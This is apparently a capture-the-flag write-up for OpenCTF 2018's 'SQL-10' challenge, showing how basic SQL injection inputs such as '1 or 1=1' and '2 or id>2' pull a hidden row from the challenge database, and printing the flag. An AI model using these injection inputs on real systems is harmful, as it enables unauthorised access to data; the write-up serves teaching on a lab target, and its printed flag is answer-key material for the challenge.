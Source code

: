 ```yaml
---
layout: post
title: "SQL-10 : SQL 10"
author: Fl0rbu5
date: 2018-08-12 13:37:59 -0700
slug: sql-10
category:
- 2018
- openctf
---
```

**Category:** SQL

**Points:** 10

**Description:** 
Sql-10 10 ---
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/



When 1 is entered it returns the following row

```
    Enter a badge number to view that officers file:1
    (1, 'bob', 'simmons', 'none')

```
Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')


```
Entering an ID of 2 no results are found.
```
Enter a badge number to view that officers file:2 
None
```
 Using the sql injection an OR was added to say "id>2"
```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```
This returns the flag in the one other row in the database

# Flag
**Th@tW@53@5yHuh**
